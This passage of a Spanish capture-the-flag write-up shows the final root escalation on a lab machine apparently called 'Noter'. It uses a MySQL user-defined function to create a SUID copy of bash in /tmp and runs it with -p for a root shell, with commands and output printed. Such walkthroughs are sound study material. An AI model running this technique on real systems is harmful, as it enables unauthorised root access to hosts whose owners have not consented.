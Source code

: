 ### Obteniendo Shell de Root

Para conseguir un shell de root, volveré a MySQL a copiar el `bash` para que sea SUID:

```sql
MariaDB [mysql]> SELECT do_system('cp /bin/bash /tmp/rootbash; chmod 4777 /tmp/rootbash');
```

```
+-----------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod 4777 /tmp/rootbash') |
+-----------------------------------------------------------+
|                                                         0 |
+-----------------------------------------------------------+
1 row in set (0.006 sec)
```

Necesitaré encontrar un lugar para trabajar que no sea `/dev/shm`, ya que está montado `nosuid`:

```bash
svc@noter:/dev/shm$ mount | grep shm
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
```

`/tmp` funcionará bien.

Como `bash` elimina privilegios, ejecutar esto devolverá un shell no root, pero ejecutar con `-p` dará root:

```bash
svc@noter:/dev/shm$ /tmp/rootbash -p
```

```
rootbash-5.0# id
uid=1001(svc) gid=1001(svc) euid=0(root) groups=1001(svc)
```

Ahora podemos leer `root.txt`.

---

## Nota

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno.